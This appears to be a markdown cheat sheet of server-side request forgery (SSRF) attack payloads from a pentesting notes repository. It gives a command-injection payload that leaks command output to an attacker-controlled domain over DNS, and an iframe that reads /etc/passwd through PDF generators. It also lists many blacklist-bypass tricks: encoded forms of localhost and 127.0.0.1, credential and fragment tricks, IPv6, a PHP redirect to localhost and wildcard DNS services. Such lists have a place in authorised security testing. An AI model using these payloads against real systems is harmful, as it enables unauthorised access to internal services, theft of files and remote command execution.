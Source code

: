 # SSRF


## RCE
If you have SSRF, test for RCE with this payload:

```
`uname`.mydomain.com
```

---

## Blacklist bypass
* Pass URL encoded parameters in order to achieve parameter injection
* Use `<iframe src="file:///etc/passwd>` with PDF generators
* URL encode `localhost` to `%6c%6f%63%61%6c%68%6f%73%74`
* Change HTTP version from `1.1` to `0.9` and remove the Host header
* Try `127.0.0.1::ffff::` or `::ffff:127.0.0.1`
* Mix case `LoCaLhOsT`
* Embed credentials `http://attacker@localhost`
* Use URL fragments `http://attacker#localhost`
* Add directory `http://localhost/random`
* Try using an IPv6 address as sometimes blacklists do not block them

### Redirect
Make a request to a page that you control with the following code:

```php
<?php header("location: http://127.0.0.1"); ?>
```
### DNS
* Use these tools to bypass internal hostnames
	* [nip.io](http://nip.io)
	* [xip.io](http://xip.io/)
  * [1u.ms](http://1u.ms/)
	* [sslip.io](https://sslip.io/)

### Encoding
Try different encodings:

* Hex `0x7f.0x0.0x0.0x1`
* Octal `0177.0.0.01`
* Url `http://%31%32%37%2e%30%2e%30%2e%31`
* Dword [`http://2130706433`]
* Remove spaces `0177000000000001`
* Mix them `0177.0.0.0x1`
* `http://31.10.590` converts to [`http://31.10.2.78/`] because (2\*256)+78
* Convert the IP address to binary representation like `01111111.00000000.00000000.00000001` and after removing the dots convert the number in decimal and you get `2130706433`
* Add zeroes `http://127.0.0000000.1/`
